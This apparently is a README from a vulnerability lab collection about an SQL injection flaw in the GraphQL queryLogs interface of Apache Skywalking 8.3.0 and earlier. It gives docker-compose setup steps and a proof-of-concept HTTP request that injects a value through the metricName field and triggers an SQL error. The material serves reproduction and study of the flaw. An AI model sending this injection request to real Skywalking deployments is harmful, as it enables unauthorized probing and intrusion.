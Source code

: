 # Apache Skywalking 8.3.0 SQL Injection Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Application performance monitor tool for distributed systems, especially designed for microservices, cloud native and container-based (Docker, Kubernetes, Mesos) architectures.

In GraphQL interfaces of Apache Skywalking 8.3.0 and previous, there is a H2 Database SQL injection vulnerability.

Reference link:

- https://mp.weixin.qq.com/s/hB-r523_4cM0jZMBOt6Vhw
- https://github.com/apache/skywalking/commit/0bd81495965d801315dd7417bb17333ae0eccf3b#diff-ec87a1cdf66cdb37574d9eafd4d72d99ed94a38c4a8ff2aa9c7b8daeff502a2c

## Vulnerability environment

Execute the following command to start an Apache Skywalking 8.3.0:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080` to view the Skywalking page.

## POC

I use GraphiQL's desktop app to send the following GraphQL query:

![](1.png)

It can be seen that the SQL statement has raised error, and the value of the `metricName` parameter has been injected ​​after `from`.

The HTTP request of this GraphQL query is:

```
POST /graphql HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 336

{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"sqli",
            "state":"ALL",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```

For more in-depth exploit, you can research by yourself, and welcome to submit PR to us.
